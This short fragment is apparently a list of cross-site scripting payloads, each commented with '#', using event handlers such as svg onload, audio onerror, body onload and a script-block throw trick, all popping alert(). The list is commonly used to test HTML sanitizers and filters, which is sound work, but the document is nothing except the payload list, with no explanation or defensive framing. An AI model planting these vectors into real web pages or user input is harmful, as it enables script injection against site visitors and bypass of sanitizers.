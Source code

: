 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio"/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type='"><img/src='"x'></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>
# <script>{onerror=alert}throw 1</script>









